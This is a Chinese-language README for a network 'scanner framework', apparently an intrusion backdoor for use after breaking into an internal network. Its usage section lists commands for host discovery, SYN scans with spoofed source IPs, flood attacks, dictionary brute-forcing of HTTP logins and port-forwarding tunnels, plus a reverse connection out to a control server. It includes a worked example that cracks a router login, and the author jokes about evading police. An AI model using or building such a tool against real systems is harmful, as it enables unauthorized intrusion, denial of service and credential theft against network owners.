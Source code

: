 
##scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro

***

###启动方式
scanner.exe 控制台启动<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]<br/>

###使用方法
扫描当前网段存活的主机,并且自动搜集数据<br/>
using:arp<br/>
获取当前主机的网络信息<br/>
using:local<br/>
测试主机是否连通<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪<br/>
using:tracert %ip/host%<br/>
抓取页面<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助<br/>
using:help<br/>
退出<br/>
using:quit<br/>

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	###什么是表达式?
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Sucess
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成

###端口转发 route
	端口转发原理:
	![](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)
	

###Other
===
#####reverse_server 是用来做反向连接用的服务端
#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..
